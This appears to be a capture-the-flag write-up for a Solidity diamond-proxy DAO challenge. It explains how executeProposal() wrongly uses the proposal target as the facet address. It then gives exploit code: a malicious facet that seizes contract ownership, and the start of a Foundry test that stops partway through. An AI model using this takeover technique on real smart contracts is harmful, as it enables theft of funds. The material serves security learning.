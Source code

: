 The issue is in executeProposal()
```solidity
        cut[0] = IDiamondCut.FacetCut({
            facetAddress: proposal.target,
            action: proposal.facetDetails.action,
            functionSelectors: proposal.facetDetails.functionSelectors
        });
```

It set the facetAddress to be proposal.target, but it should be proposal.facetDetails.facetAddress instead

So the facet address is ignored and target address is set for both facetAddress and target

So just set both to the exploit facet contract's address
```solidity
uint256 proposalId = DAOFacet(pigeonDiamond).submitProposal(address(exploit), hex"", IDiamondCut.FacetCut(address(exploit), IDiamondCut.FacetCutAction.Add, selectors));
```

And add a receive() function in the exploit facet contract
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.17;

import {LibDiamond} from "./libraries/LibDiamond.sol";

contract ExploitFacet {
    function becomeOwner() public {
        LibDiamond.setContractOwner(msg.sender);
    }
    
    receive() external payable {}
}
```

### Foundry test

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Setup.sol";
import "../src/ExploitFacet.sol";

contract vaultTest is Test {
    Setup public setup_contract;
    address public pigeonDiamond;
    address public attacker;
    address public attacker2;    
    ExploitFacet public exploit;

    function setUp() public {
        setup_contract = new Setup{value: 3000 ether}();
        pigeonDiamond = address(setup_contract.pigeonDiamond());
        attacker = makeAddr("attacker");
        vm.deal(attacker, 10 ether);
        attacker2 = makeAddr("attacker2");
    }

    function testExploit() public {
        vm.startPrank(attacker);
        console.log("setup address :", address(setup_contract));
        console.log("attacker address :", attacker);
        console.log("pigeonDiamond balance :", pigeonDiamond.balance);
        console.log("attacker balance :", attacker.balance);
```